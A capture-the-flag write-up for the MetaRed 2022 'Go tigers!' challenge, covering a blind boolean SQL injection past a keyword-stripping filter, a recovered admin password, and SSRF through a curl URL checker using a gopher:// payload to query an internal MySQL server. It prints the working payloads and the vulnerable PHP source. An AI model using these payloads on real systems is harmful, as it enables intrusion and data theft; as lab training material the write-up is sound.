# Writeup-Go-Tigers-
### MetaRed CTF Argentina 2022

## Go tigers!
 <img src=img/19.png class="center">

When visiting the website, we can see two input fields. The first one require an id.If the id is valid it displays the id and the username else it displays nothing.The second field was an input that read the content of a file using the function file_get_contents().

 <img src=img/1.png class="center">

We tried to trigger an error using a quote and fortuantely we got an error from the database.The error reveals that a function called supersafeWaf() was filtering our input.
<img src=img/2.png class="center">

(I discovered later that this was useless since my friend LAM managed to read the admin password from ../tiger.db using the second input , but hey i enjoyed tortuaring myself to manually perform a blind boolean based sql injection and that was fun!)

 <img src=img/18.png class="center">

Looking at the code of "index.php", we find out that ther suspersafeWaf() function actually filters some statements like 'select' , 'order' .. 
```
<?php
ini_set('display_errors', 'on');

class TigerClass {
    public function superSafeWAF($sql) {
        $pdo = new SQLite3('../tiger.db', SQLITE3_OPEN_READONLY);
        $safesql = implode (['select',  'union', 'order', 'by', 'from', 'group', 'insert'], '|');
        $sql = preg_replace ('/' . $safesql . '/i', '', $sql);
        $query = 'SELECT id, user FROM tigers WHERE id=' . $sql . ' LIMIT 1';
        $tigers = $pdo->query($query);
        $sol = $tigers->fetchArray(SQLITE3_ASSOC);
        if ($sol) {
            return $sol;
        }
        return false;
        }
    }
```

We tried out some SQLi payloads to see that this was a blind boolean based sql injection , with an sqlite3 database.
Our payload was **1 AND CASE WHEN substr(user,1,1)='a' THEN 1 ELSE load_extension(1) END**
 
 <img src=img/5.png class="center">

Since the username having an id 1 was 'admin' we didn't get an error and the data corresponding was displayed. 
Our final payload was **1 AND CASE WHEN substr(pass,1,1)='a' THEN 1 ELSE load_extension(1) END**
 
 <img src=img/20.png class="center">

--> username : admin 
--> password : This_password_is_very_safe!

We discovered that there is an admin page (admin.php) that require a username and a password.So paasing those creds to the form we got to the page :

 <img src=img/9.png class="center">

This time one input that gets an url was present and after reading the source code of the admin.php (using the second input field in the index.php) we decided to look for an SSRF: 

```
function str_contains($haystack, $needle) {
					return $needle !== '' && mb_strpos($haystack, $needle) !== false;
				}
				$not_protocol_smuggling = !str_contains(strtolower($_POST['post_url']),"file");

				if (isset($_SESSION['auth']) && isset($_POST['post_check']) && $not_protocol_smuggling) { exec(escapeshellcmd("timeout 5 curl " . escapeshellarg($_POST['post_url']) . " --output -"), $out); echo "<pre>"; print_r($out); echo "</pre>"; } ?>
			</div>
			<br>
			<!--Acordarse de Fixear el BD user juanperez  -->
		<h4>DB Status Check</h4>
			<div id="login">
				<form class="form-signin" action="<?php basename($_SERVER['PHP_SELF']); ?>" method="post" style="border:0px;">
				<input class="btn  btn-primary" type="submit" name='db_check' value = "Check" style='margin-top:10px;'/>
				</form>
				<?php if (isset($_SESSION['auth']) && isset($_POST['db_check'])) { exec('timeout 2 nc -z mysqlsafedb.com 3306 ; if [ $? -eq 0 ] ; then echo "Online"; else echo "Offline"; fi', $out); echo "<pre>"; print_r($out); echo "</pre>"; } ?>
			</div>
```


**What is SSRF?**
Server-Side Request Forgery (SSRF) refers to an attack wherein an attacker is able to send a crafted request from a vulnerable web application. SSRF is usually used to target internal systems behind firewalls that are normally inaccessible to an attacker from the external network.

All protocols other than file:// was valid since a delay of 5s took place. Reading the source code of the 'admin.php' once again a comment cought our attention **Acordarse de Fixear el BD user juanperez** which means 'Remember to Fix the BD user juanperez'
ehhhmmm ... So maybe there is another database running on internal!
our hypothese was confirmed when we saw the line of code **{ exec('timeout 2 nc -z mysqlsafedb.com 3306 ; if [ $? -eq 0 ] ; then echo "Online"; else echo "Offline"; fi', $out);**. That means that the othe button was checking the whole time if this database is online or not. To communicate with this databse we decided to use the protocol **Gopher**.

**What is Gopher?**
Gopher is an application-layer protocol that provides the ability to extract and view Web documents stored on remote Web servers. Gopher was conceived in 1991 as one of the Internet’s first data/file access protocols to run on top of a TCP/IP network. It was developed at the University of Minnesota and is named after the school’s mascot.
We can use gopher:// to communicate with the MySQL database.

Basic agreement format: URL:gopher ://<host>:<port>/<gopher-path>_ Followed by TCP data flow
Tring the payload : **gopher://mysqlsafedb.com:3306/_Hello**
 
 <img src=img/11.png class="center">

Using gopherus, we were able to generate the following sql query : SELECT schema_name FROM information_schema.schemata

 <img src=img/16.png class="center">


 ## FLAG
 
Our final payload was : **gopher://mysqlsafedb.com:3306/_%a8%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%6a%75%61%6e%70%65%72%65%7a%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%34%00%00%00%03%73%65%6c%65%63%74%20%73%63%68%65%6d%61%5f%6e%61%6d%65%20%66%72%6f%6d%20%69%6e%66%6f%72%6d%61%74%69%6f%6e%5f%73%63%68%65%6d%61%2e%73%63%68%65%6d%61%74%61%01%00%00%00%01**
And the flag was the name of a database other than 'information_schema.schemata'


 <img src=img/17.png class="center">

 ## Some Ressources:

 - https://programming.vip/docs/ssrf-uses-gopher-to-attack-mysql-and-intranet.html
 - https://github.com/tarunkant/Gopherus



